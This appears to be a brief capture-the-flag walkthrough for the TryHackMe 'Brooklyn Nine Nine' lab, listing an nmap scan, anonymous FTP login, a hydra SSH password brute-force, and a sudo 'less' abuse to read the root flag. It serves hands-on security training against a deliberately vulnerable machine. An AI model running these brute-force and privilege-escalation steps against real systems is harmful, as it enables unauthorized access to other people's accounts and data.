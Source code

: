 ```yaml
---
description: https://tryhackme.com/room/brooklynninenine
---
```


# Brooklyn Nine Nine

### **User flag**

```
nmap 10.10.125.10
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 20-33-53.png>)

#### ftp

```
lftp 10.10.125.10 -u Anonymous,
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 20-34-53.png>)

#### ssh

```
hydra -l jake -P /usr/share/metasploit-framework/data/wordlists/password.lst \
      ssh://10.10.125.10 -I -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 20-45-13.png>)

```
ssh jake@10.10.125.10
find / -name user.txt 2>/dev/null
cat /home/holt/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 20-47-35.png>)

### **Root flag**

```
sudo -l
sudo /usr/bin/less /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 20-49-33.png>)
